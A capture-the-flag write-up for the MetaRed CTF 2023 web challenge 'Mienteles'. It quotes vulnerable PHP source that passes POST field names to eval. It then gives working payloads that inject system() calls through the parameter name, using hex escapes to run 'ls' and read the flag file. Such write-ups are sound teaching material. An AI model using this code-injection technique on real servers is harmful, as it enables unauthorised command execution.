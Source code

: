 ```yaml
---
title: MetaRed CTF 2023 - Mienteles
date: Thu Oct 26 04:33:18 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,web,php]
---
```


## Description

Author: <strong>puck</strong>

Welcome to Mienteles. We are a telecommunications company from Latin America. We have a bug bounty program through which we dont pay for critical vulnerabilities, but at least you can win a flag: <a href="https://mienteles.ctf.cert.unlp.edu.ar/">Link</a> 

[Challenge](https://mienteles.ctf.cert.unlp.edu.ar/)<br>
[Mirror](https://mienteles-mirror.mirror-ctf.cert.unlp.edu.ar/)<br>
[Source](https://mienteles.ctf.cert.unlp.edu.ar/?src)

## Solution

```php
<?php

if (isset($_GET['src'])) {
    highlight_file(__FILE__);
    die();
}
?>
...
<div class="card-body">
    <h5 class="card-title">Flag</h5>
    <p class="card-text">Aquí estará tu flag: </p>
    <!-- Accede a ?src -->
    <?php
    error_reporting(0);
    if ($_POST['keyl'] == md5(date('Y-m-d'))) {
        foreach ($_POST as $name => $value) {
            $assign = "\$" . $name . "='" . preg_replace('([^A-Za-z0-9@. _-])', '', $value) . "';";
            eval($assign);
        }
    } else {
        echo "No podes hackearme";
    }
    ?>
</div>
...
```

The php code basically allows us to create variables, if string `$name=value` is evaluated then we can have access to `$name` in the code. 

One other thing to take note of is `"` (double quotes), in PHP double quotes allows string interpolation so to avoid disgusting string concatination and use beautiful "format strings" you can include variables in `{}`.

```php
└─$ php -a
Interactive shell

php > $name="Ryan";
php > echo "Hello {$name}";
Hello Ryan
```

Let's get cooking D:

First let's bypass the md5 hash check:

```py
>>> from hashlib import md5
>>> from datetime import date
>>> md5(str(date.today()).encode()).hexdigest()
'6bde8c88ffee17ea27c8e281299dcf47'
>>>
```

Nice, now the actual payload. We can't sneak any variable into `value` due to heavy filtering, but what about name?

Payload: `keyl=6bde8c88ffee17ea27c8e281299dcf47&{system("ls")}=1`

![mienteles-1](/assets/images/metared/2023/mienteles-1.png)

Great we got command execution!

Now we need to `cat` the file, the problem is how php transforms the data <https://www.php.net/manual/en/language.variables.external.php#81080>.

> The full list of field-name characters that PHP converts to _ (underscore) is the following (not just dot):<br>
> chr(32) ( ) (space)<br>
> chr(46) (.) (dot)<br>
> chr(91) ([) (open square bracket)<br>
> chr(128) - chr(159) (various)<br>
> <br>
> PHP irreversibly modifies field names containing these characters in an attempt to maintain compatibility with the deprecated register_globals feature.

We cannot URLEncode our payload because it will be decoded and php will still convert it to underscores. What we can do is use hex codes, because they will not be decoded until they are inside the `system` call.

0x20 -> Space<br>
0x2E -> Dot

Payload: `keyl=6bde8c88ffee17ea27c8e281299dcf47&{system("cat\x20flag\x2Ephp")}=1`

![mienteles-2](/assets/images/metared/2023/mienteles-2.png)

> Flag: flag{N1c3!No_B0untY_But_Th1s_1s_ur_fl4G}
{: .prompt-tip }